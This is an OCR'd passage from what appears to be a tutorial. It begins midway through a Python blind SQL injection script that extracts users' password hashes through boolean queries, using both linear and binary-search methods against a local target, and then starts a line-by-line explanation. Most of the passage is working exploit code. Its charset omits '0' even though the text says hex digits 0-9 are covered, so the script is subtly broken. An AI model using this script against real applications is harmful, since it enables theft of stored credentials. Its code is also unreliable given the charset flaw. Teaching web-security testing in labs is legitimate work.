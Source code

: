 ```python
                else:
                    found += charset[end]
                break
            else:
                middle = (start + end) // 2
                if boolean_query(index, user_id, charset[middle]):
                    end = middle
                else:
                    start = middle + 1
    return found

# Function to print the total number of queries made
def total_queries_taken():
    global total_queries
    print("\t\t[!] {} total queries!".format(total_queries))
    total_queries = 0

# Main loop to interactively extract password hashes
while True:
    try:
        user_id = input("> Enter a user ID to extract the password hash: ")
        if invalid_user(user_id):
            print("\t[X] User {} does not exist!".format(user_id))
        else:
            user_password_length = password_length(user_id)
            print("\t[-] User {} hash length: {}".format(user_id, user_password_length))
            total_queries_taken()
            password_hash = extract_hash(charset, user_id, user_password_length)
            print("\t[-] User {} password hash: {}".format(user_id, password_hash))
            total_queries_taken()
            password_hash_bst = extract_hash_bst(charset, int(user_id), user_password_length)
            print("\t[-] User {} password hash using BST: {}".format(user_id, password_hash_bst))
            total_queries_taken()
    except KeyboardInterrupt:
        print("\n[!] Exiting...")
        break

```


Code step by step, breaking down each function and explaining how they work together.

### 1. **Global Variables Setup**
   ```python
   import requests

   # Global variable to track the number of queries made
   total_queries = 0

   # The charset used to guess the password hash characters
   charset = "123456789abcdef"

   # The target URL for the SQL injection attack
   target = "http://127.0.0.1:5000"

   # The string to look for in the response to determine if the injection was successful
   needle = "Welcome back"
   ```
   **Explanation**:
   - **requests**: This module is imported to send HTTP requests to the server.
   - **total_queries**: A global variable to keep track of how many SQL queries are sent during the password extraction process.
   - **charset**: The set of characters that could be part of the password hash. For example, a hex hash will include digits 0-9 and letters a-f.